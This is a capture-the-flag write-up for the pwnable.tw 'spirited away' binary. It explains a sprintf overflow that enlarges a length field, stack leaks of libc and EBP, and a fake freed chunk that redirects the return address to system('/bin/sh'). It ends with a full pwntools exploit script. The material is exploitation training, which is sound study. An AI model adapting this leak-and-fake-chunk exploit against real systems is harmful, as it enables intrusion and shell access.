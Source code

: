 # pwnable.tw - spirited away

Original challenge link: https://pwnable.tw/challenge/#22

##  Overview

It asks for a few details regarding name, reason for coming, and comments about movie. It stores the name on heap, but stores rest of data on stack. 

Stack Layout (relative to EBP) -
```
-0xe8 = comment_count_snprintf
-0xb0 = comment_len
-0xac = reason_len
-0xa8 = comment_buff
-0x58 = age
-0x54 = nameptr
-0x50 = reason_buff
 0x0  = saved EBP
 0x4  = saved EIP
```

## Vulnerability
Upon analyzing, i noticed that reason buffer already had some stack junk present in it, including libc addresses and stack addresses. Since printf prints till first null byte, we can carefully set reason to just end before a useful pointer and leak info.

Now onto some sort of overflow, there is no overflow in reason/comment buffer. But, focus on this line - 
```c
sprintf(&comment_count_snprintf, "%d comment so far. We will review them as soon as we can", count);
```
EBP-0xe8 is only 0x38 bytes, and this string is 38 bytes long IF the comment count is only single digit. As soon as comment count hits double digits, snprintf will overflow and write last byte at EBP-0xb0, which is comment_len. comment_len is used to read both name and comment, so we cant pass anything to those now. But if we take comment count to >= 100, 'n' will also overflow into comment_len, making the new comment len '0x6e'. This is big, cuz with this, we can overflow the 0x50 byte comment buffer and 0x38 byte malloc'd heap chunk.



## Exploit
First we leak libc and stack addresses - 
```py
p.sendlineafter(b"name: ", b"a")
p.sendlineafter(b"age: ", b"1")
p.sendafter(b"movie? ", b"A"*23+b"#") #reason buffer
p.sendlineafter(b"comment: ", b"a")
p.recvuntil(b"#")
libc.address = u32(p.recv(4)) - 0x675e7
print(hex(libc.address))

p.sendlineafter(b"<y/n>: ", b"y")
p.sendlineafter(b"name: ", b"a")
p.sendlineafter(b"age: ", b"1")
p.sendafter(b"movie? ", b"A"*0x36+b"#!") #reason buffer
p.sendlineafter(b"comment: ", b"a")

p.recvuntil(b"#!")
ebp = u32(p.recv(4)) - 0x20
print(hex(ebp))
```
We are just carefuly filling the reason buffer till just behind useful data, and adjusting for correct offsets.

Now that its done, we fill it till 100 comments - 
```py
for i in range(8):
    p.sendlineafter(b"<y/n>: ", b"y")
    p.sendlineafter(b"name: ", b"a")
    p.sendlineafter(b"age: ", b"1")
    p.sendafter(b"movie? ", b"A")
    p.sendlineafter(b"comment: ", b"a")

for i in range(90):
    p.sendlineafter(b"<y/n>: ", b"y")
    #p.sendlineafter(b"name: ", b"a")
    p.sendlineafter(b"age: ", b"1")
    p.sendlineafter(b"movie? ", b"A")
    #p.sendlineafter(b"comment: ", b"a")
```
After 10th comment it can't accept name and comment, so we commented those out. After this, the comment_len is 0x6e.

We can overflow name and reason buffer, but we can't overflow reason buffer (can't overwrite reason_len). So we can't touch the saved EIP/ret address. 

Lets see what we can overwrite by overflowing comment_buff - 
```
EBP-0xa8 = comment_buff
EBP-0x58 = age
EBP-0x54 = nameptr
EBP-0x50 = reason_buff
```
So we can completely overwrite age and nameptr. Age is just printed through %d in printf, but, free(nameptr) is called at end of every loop. So we can free whatever address we want to.

The goal is to free an interesting address of size 0x3c, such that when malloc(0x3c) is called in next loop, it gets our fake address. However this has a major contraint, the address we are freeing has to have a valid chunk. Hence we should already have write primitive on that address. Doesn't make sense?

Now recall that although malloc calls (0x3c), which returns a chunk of size 0x40, it reads comment_len number of bytes there. Which means we neeed to create a fake chunk of size 0x40, but we can write 0x6e bytes there.

The perfect target for this is reason_buffer. It sits directly behind saved EBP and EIP. Lets see the structure of our fake chunk - 

|addr|content|description|
|----|-------|-----------|
|reason_buff|p32(0)|padding just for alignment. can be anything.|
|reason_buff+4|p32(0x40)|setting chunk size as 0x40|
|reason_buff+8|b"A"*0x3c|junk chunk content. again can set 0x3c bytes to anything|
|reason_buff+0x44|p32(0x20)|glibc checks the size of next chunk if its valid or not so we can set any reasonable chunk size. |

The above in python - 
```py
p.sendlineafter(b"<y/n>: ", b"y")
p.sendlineafter(b"name: ", b"a")
p.sendlineafter(b"age: ", b"1")
p.sendafter(b"movie? ", p32(0)+ p32(0x40)+ b"A"*0x3c+p32(0x20))
p.sendafter(b"comment: ", b"a"*0x54 + p32(ebp-0x50+8))
```
We overflowed the comment, and just wrote comment_addr+8 to name_ptr(plus 8 was to adjust for metadata).

Now if we free it, comment_addr+8 goes into 0x40 size fastbin. Then in next malloc, that address is returned, and whatever we write in name, it gets written there. We see that 0x50-8 bytes will touch saved EBP, and 0x50-4 will touch saved EIP. With filler bytes till there, we overwrite ret address with system() and write parameter as a pointer to comment_buff to which we write /bin/sh.

```py
p.sendlineafter(b"<y/n>: ", b"y")
p.sendlineafter(b"name: ", flat(
    b"A"*0x48,
    b"B"*4, #ebp
    p32(libc.sym.system), #eip
    p32(0), #filler ret addr
    p32(ebp-0xa8) #comment buff
))
p.sendlineafter(b"age: ", b"1")
p.sendafter(b"movie? ", b"a")
p.sendafter(b"comment: ", b"/bin/sh;")
```

Now exiting survey function will spawn a shell!!



## Solve Script
```py
from pwn import *
import time
exe = ELF("./spirited_away_patched")
libc = ELF("./libc_32.so.6")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['wt.exe', 'wsl.exe', '-d', 'kali-linux']

def conn():
    if args.REMOTE:
        return remote("chall.pwnable.tw", 10204)
    env = {"LD_PRELOAD": libc.path}
    r = None
    if args.GDB:
        r = process([exe.path], env=env)
        gdb.attach(r)
        time.sleep(2)
    else:
        r = process([exe.path])
    return r

p = conn()
p.sendlineafter(b"name: ", b"a")
p.sendlineafter(b"age: ", b"1")
p.sendafter(b"movie? ", b"A"*23+b"#")
p.sendlineafter(b"comment: ", b"a")

p.recvuntil(b"#")
libc.address = u32(p.recv(4)) - (0xf7e0e5e7- 0xf7da7000)
print(hex(libc.address))


p.sendlineafter(b"<y/n>: ", b"y")
p.sendlineafter(b"name: ", b"a")
p.sendlineafter(b"age: ", b"1")
p.sendafter(b"movie? ", b"A"*0x36+b"#!")
p.sendlineafter(b"comment: ", b"a")

p.recvuntil(b"#!")
ebp = u32(p.recv(4)) - 0x20
print(hex(ebp))


for i in range(8):
    p.sendlineafter(b"<y/n>: ", b"y")
    p.sendlineafter(b"name: ", b"a")
    p.sendlineafter(b"age: ", b"1")
    p.sendafter(b"movie? ", b"A")
    p.sendlineafter(b"comment: ", b"a")

for i in range(90):
    p.sendlineafter(b"<y/n>: ", b"y")
    #p.sendlineafter(b"name: ", b"a")
    p.sendlineafter(b"age: ", b"1")
    p.sendlineafter(b"movie? ", b"A")
    #p.sendlineafter(b"comment: ", b"a")


p.sendlineafter(b"<y/n>: ", b"y")
p.sendlineafter(b"name: ", b"a")
p.sendlineafter(b"age: ", b"1")
p.sendafter(b"movie? ", p32(0)+ p32(0x40)+ b"A"*0x3c+p32(0x20))
p.sendafter(b"comment: ", b"a"*0x54 + p32(ebp-0x50+8))
p.sendlineafter(b"<y/n>: ", b"y")
p.sendlineafter(b"name: ", flat(
    b"A"*0x48,
    b"B"*4, #ebp
    p32(libc.sym.system),
    p32(0),
    p32(ebp-0xa8) #comment buff
))
p.sendlineafter(b"age: ", b"1")
p.sendafter(b"movie? ", b"a")
p.sendafter(b"comment: ", b"/bin/sh;")

p.sendlineafter(b"<y/n>: ", b"n")
p.interactive() 
```